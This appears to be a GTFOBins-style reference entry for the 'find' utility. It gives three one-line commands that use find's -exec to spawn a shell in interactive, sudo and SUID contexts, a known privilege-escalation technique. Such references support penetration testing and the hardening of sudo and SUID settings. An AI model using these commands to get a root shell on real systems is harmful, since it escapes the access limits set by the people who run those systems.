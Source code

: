 ```yaml
---
functions:
  execute-interactive:
    - code: find . -exec /bin/sh \; -quit
  sudo-enabled:
    - code: sudo find . -exec /bin/sh \; -quit
  suid-enabled:
    - code: ./find . -exec /bin/sh -p \; -quit
---
```

